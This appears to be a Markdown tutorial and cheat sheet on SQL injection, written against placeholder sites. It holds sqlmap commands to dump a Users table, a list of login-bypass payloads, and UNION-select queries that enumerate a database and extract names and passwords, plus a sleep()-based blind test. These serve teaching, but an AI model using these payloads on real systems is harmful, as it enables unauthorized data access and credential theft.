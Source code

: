# SQL Injection

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

* Passwords.
* Credit card details.
* Personal user information.

Imagine a shopping application that displays products in different categories. When the user clicks on the **Gifts** category, their browser requests the URL:

`https://insecure-website.com/products?category=Gifts`

This causes the application to make a SQL query to retrieve details of the relevant products from the database:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

The restriction `released = 1` is being used to hide products that are not released. We could assume for unreleased products, `released = 0`.

The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:

`https://insecure-website.com/products?category=Gifts'--`

This results in the SQL query:

`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

**Good tool:** [https://sqlmap.org/](https://sqlmap.org/)

You can capture the request using burp suite, and save the request in a file. Then your run:

`sqlmap -r request.txt`

We can dump the database and the table, i.e.:

`sqlmap -r request.txt -p username --dbms=mysql --dump -D Webapp -T Users`

**Manual login bypass**:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### Error-based SQLi

If we manage to find an error-message after a broken SQL query, we can use that to try to map out the database structure.

For example:

```
http://example.com/photoalbum.php?id=1
```

#### Step 1: Add a ' or '':

So first we should try to break the SQL syntax by adding a `'`. We should first ad a `'` or a `"`.

```
http://example.com/photoalbum.php?id=1'
```

If the page then returns a blank page or a page with a SQL error we know that the page it vulnerable.

#### Step 2: Enumerate columns:

So in order to enumerate the columns of a table we can use the **order by** statement.

**Order by 1** means sort by values of the first column from the result set. **Order by 2** means sort by values of the second column from the result set. So it is basically just a tool to order the data in a table. But we can use it to find out how many columns a table has. Because if we do **order by 10** when there really only is 9 columns SQL will throw an error. And we will know how many columns the table has.

```
# No error
http://example.com/photoalbum.php?id=1 order by 9

# Error
http://example.com/photoalbum.php?id=1 order by 10
```

To enumerate columns you can also use **union select** of **null** values, and if the number of null values provided in injection matches the number of columns in the database you should not receive an error:

```
# Example: Database has 3 columns
# No error
http://example.com/photoalbum.php?id=1' union select NULL,NULL,NULL--

# Error
http://example.com/photoalbum.php?id=1' union select NULL,NULL--
```

We use `NULL` as the values returned from the injected `SELECT` query because the data types in each column must be compatible between the original and the injected queries. `NULL` is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.

Now in order to find out if we can output some data, we can start by replacing NULL values with some actual data. For example:

```
# Example: Database has 3 columns
# Replace one of the null values with string to see if the database responds without error
http://example.com/photoalbum.php?id=1' union select NULL,'A',NULL--
```

#### Step 3: Find space to output DB:

We need to know which columns are being outputted on the webpage. It could be that not all of the data from the database is worthwhile to output, so maybe only column 1 and 3 are being outputted to the website.

```
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,5,6,7,8,9
```

For all the columns that exists. This will return the numbers of the columns that are being outputted on the website. Take note of which these columns are.

#### Step 4: Start enumerating the database:

Now we can use that field to start outputting data. For example if column number five has been visible in step 3, we can use that to output the data.

Here is a list of data we can retrieve from the database. Some of the syntaxes may difference depending on the database engine (MySQL, MSSQL, Postgres):

```
# Get username of the SQL user
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,user(),6,7,8,9

# Get version
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,version(),6,7,8,9

# Get all tables
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables

# Get all columns from a specific table
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'

# Get content from the users-table. From columns name and password. The 0x3a (:) only serves to create a delimitor between name and password
http://example.com/photoalbum.php?id=1 union select 1,2,3,4,concat(name,0x3a,password),6,7,8,9 FROM users
```

### Blind SQL injection:

We say that it is blind because we do not have access to the error log.

#### Using sleep:

Since we do not have access to the logs we do not know if our commands are syntaxically correct or not. To know if it is correct or not we can however use the sleep statement.

```
http://example.com/photoalbum.php?id=1-sleep(4)
```

If the page loads for 4 extra seconds we know that the database is processing our **sleep()** command.
